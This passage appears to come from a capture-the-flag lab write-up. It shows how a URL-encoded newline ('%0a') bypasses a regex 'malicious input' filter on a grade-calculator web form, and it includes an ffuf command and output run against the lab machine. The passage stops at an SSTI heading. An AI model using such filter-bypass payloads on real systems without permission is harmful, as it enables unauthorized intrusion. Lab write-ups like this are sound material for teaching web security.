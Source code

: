 #### Newline Injection

The thing to notice is that in either of the above cases, the regex doesn’t check across newlines. I exploited a similar vulnerability in PHP in [HTB Clicker](/2024/01/27/htb-clicker.html#bypass-check-via-newline-injection). The idea is that I can send something like “0xdf%0a$” and see if it is still flagged, where “%0a” is a URL-encoded newline. I’m including something at the front of the string in case the regex is like the second one above, where it needs to match on something (if that “+” (one or more) was a “\*” (zero or more) I wouldn’t need it, but better to be safe).

It works:

![image-20240625143450873](/img/image-20240625143450873.png)

`ffuf` confirms it works for all characters:

```

oxdf@hacky$ ffuf -u http://10.10.11.253/weighted-grade-calc -d 'category1=0xdf%0aFUZZ&grade1=80&weight1=25&category2=Literature&grade2=100&weight2=55&category3=Physics&grade3=93&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr Malicious

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.11.253/weighted-grade-calc
 :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/alphanum-case-extra.txt
 :: Data             : category1=0xdf%0aFUZZ&grade1=80&weight1=25&category2=Literature&grade2=100&weight2=55&category3=Physics&grade3=93&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Malicious
________________________________________________

:: Progress: [95/95] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```

### SSTI

#### Identify
